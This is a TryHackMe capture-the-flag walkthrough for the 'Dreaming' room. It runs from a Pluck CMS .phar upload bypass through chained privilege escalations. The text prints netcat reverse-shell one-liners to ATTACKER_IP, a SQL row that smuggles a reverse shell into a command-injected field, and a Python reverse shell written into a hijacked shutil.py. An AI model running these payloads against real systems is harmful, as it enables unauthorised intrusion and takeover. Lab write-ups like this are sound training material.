


# Dreaming

**Difficulty:** 🟢 Easy · **Room:** [TryHackMe ↗](https://tryhackme.com/room/dreaming)

<center>While the king of dreams was imprisoned, his home fell into ruins.

Can you help Sandman restore his kingdom?</center>

---

## Reconnaissance

I started with a full TCP port scan so I wouldn't miss any non-default services:

```bash
sudo nmap -p- TARGET_IP
```

**Results:**

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Next, I scanned those two ports again with version detection and default scripts:

```bash
sudo nmap -p 22,80 -sV -sC TARGET_IP
```

**Results:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

| Port | Service | Version |
|---:|---|---|
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache 2.4.41 |

Port 80 was open, so I checked the web page:


---

## Enumeration

The page only showed the Apache default page, so I ran a directory brute-force with **feroxbuster** to look for hidden folders:

```bash
feroxbuster -u http://TARGET_IP -w /usr/share/wordlists/dirb/common.txt
```

This found an application folder:

```
/app/pluck-4.7.13
```


That path led to a **Pluck CMS** installation:


The site's `admin` link redirected to the CMS login page:

```
http://TARGET_IP/app/pluck-4.7.13/login.php
```



I tried a few common, weak passwords, and one worked on the first try:


---

## Initial Access

The admin panel had a file upload feature meant for media files. I tried uploading a `.php` webshell, but it was blocked — the filter silently renamed the file:

```
shell.php  →  shell.php.txt
```

However, the filter didn't check for the `.phar` extension, which PHP can still execute under certain server configurations. This is a known vulnerability, **CVE-2020-29607** — an authenticated file upload filter bypass in Pluck CMS ≤ 4.7.13.


This time, uploading a `.phar` webshell went through without being renamed, giving me remote code execution:


I used that code execution to open a reverse shell:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
```

With a listener already running on my machine:

```bash
nc -lvnp 4444
```

This gave me an interactive shell as the web server user.



---

## Privilege Escalation: lucien

With initial access secured, I checked `/opt` for any leftover scripts or config files:


There was a file called `test.py`, and it contained hardcoded credentials for a local user, `lucien`:


I used those credentials to switch users:

```bash
su lucien
```

This confirmed access as `lucien`, and I grabbed the user flag:


---

## Privilege Escalation: death

As `lucien`, I checked what I was allowed to run with `sudo`:

```bash
sudo -l
```

It showed I could run a script owned by `death`, with no password required:

```
/home/death/getDreams.py
```


Looking at `getDreams.py`, I found it builds a shell command directly from user-controlled data:

```python
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
```

Since `dreamer` and `dream` are inserted straight into a string run with `shell=True`, this is a command injection — as long as I could control one of those values. It turned out both were pulled from a MySQL database.

While looking through the shell history on the box, I found a plaintext MySQL credential:

```bash
mysql -u lucien -p REDACTED
```

Connecting to the database, I confirmed that `getDreams.py` reads `dreamer` and `dream` from the `dreams` table in the `library` database. So I inserted a malicious payload there instead:

```sql
USE library;

INSERT INTO dreams (dreamer, dream)
VALUES (
    "shell",
    "$(mkfifo /tmp/a; cat /tmp/a | /bin/bash -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/a)"
);
```

Then I ran the sudo-permitted script, which triggered the payload as `death`:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

This gave me a reverse shell as `death`, along with the flag:


---

## Privilege Escalation: morpheus

As `death`, I searched for writable files under `/usr` — a common place to look for library-hijacking opportunities:

```bash
find /usr/ -type f -writable 2>/dev/null
```

This turned up something unexpected: a world-writable copy of a standard library module:

```
/usr/lib/python3.8/shutil.py
```

Inside `/home/morpheus`, I found a script called `restore.py` that backs up a sensitive file:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

Since this script imports `shutil` directly, and `shutil.py` was writable, any code I placed inside it would run whenever `restore.py` executed — as whichever user ran it.

I used `pspy64` to check whether `restore.py` runs on its own, and it did — roughly every two minutes, most likely from a cron job running as `morpheus`:

```
2026/08/01 20:21:01 CMD: UID=1002 PID=2546 | /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py
2026/08/01 20:23:01 CMD: UID=1002 PID=2555 | /usr/bin/python3.8 /home/morpheus/restore.py
```

**Escalation path:**

```
death
  └─▶ writable /usr/lib/python3.8/shutil.py
        └─▶ restore.py imports shutil
              └─▶ scheduled execution as morpheus
                    └─▶ code execution as morpheus
```

I overwrote the writable library with a payload that opens a reverse shell and fixes the flag's file permissions:

```bash
printf '%s\n' 'import socket,os,pty; os.chmod("/home/morpheus/morpheus_flag.txt",0o777); RHOST="ATTACKER_IP"; RPORT=8888; s=socket.socket(); s.connect((RHOST,RPORT)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")' > /usr/lib/python3.8/shutil.py
```

With a listener ready:

```bash
nc -lvnp 8888
```

On the next scheduled run of `restore.py`, my modified `shutil.py` was imported and the payload ran — giving me a shell as `morpheus` and completing the box.


---

## Kill Chain

This box was a straightforward chain, where each weak point led to the next. A file upload filter that only checked extensions let me slip past it with a `.phar` file and get code execution as the web server user. From there, a leftover script in `/opt` handed me plaintext credentials for `lucien`. 

The next two steps both came down to the same root cause: user-controlled input being trusted where it shouldn't be. A `sudo`-permitted script built a shell command from database values, so poisoning the database was enough to run arbitrary commands as `death`. Then a world-writable copy of a core Python library meant that a routine, scheduled backup script would run anything I wanted, as `morpheus`.

`www-data → lucien → death → morpheus`

- **Initial Access:** File upload filter bypass (CVE-2020-29607) → remote code execution as `www-data`
- **Privilege Escalation:** Hardcoded credentials in `/opt/test.py` → shell as `lucien`
- **Privilege Escalation:** Command injection via a sudo-permitted script that reads attacker-controlled database rows → shell as `death`
- **Final Escalation:** World-writable `shutil.py` imported by a scheduled backup script → shell as `morpheus`

> Thanks for reading!